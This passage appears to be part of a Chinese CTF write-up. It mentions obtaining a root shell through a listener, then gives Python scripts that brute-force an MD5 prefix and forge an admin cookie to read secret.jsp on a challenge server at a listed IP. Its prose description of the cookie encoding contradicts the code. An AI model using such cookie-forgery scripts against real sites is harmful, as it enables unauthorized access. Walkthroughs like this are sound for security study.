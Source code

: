 ![image-20220417124607833](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202204171246010.png)

最后还是监听，获取root的shell

![image-20220417124635562](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202204171246688.png)

## secret

###  考点

1. md5爆破
2. cookie伪造，找cookie的加密方式

经典的爆破md5

```python
import hashlib

for i in range(1,1000000000):
    str1=hashlib.md5(str(i).encode("UTF-8")).hexdigest()
    if(str1[0:6]=='0feeb5'):
        print(i)
        print(str1)
        break
```

登录有secret.jsp,说要admin才能查看

登录admin，密码错误，这儿可能有sql注入之类的

但是wp上是伪造cookie

cookie的加密逻辑也就是逐位判断奇偶，偶加2，奇加1，然后加上一个随机字符，最后脚本如下

```python
import requests

def encrypt(s):
    res = ""
    for i in s:
        if ord(i)%2 == 0:
            res += chr(ord(i) + 2)
        else:
            res += chr(ord(i) - 2)
        res += "a"
    return res

def main():
    url = "http://1.14.71.254:28543/" + "secret.jsp"
    cookies = {"usr" : encrypt("admin")}
    res = requests.get(url, cookies=cookies)
    print(res.text)

if __name__ == "__main__":
    main()
```
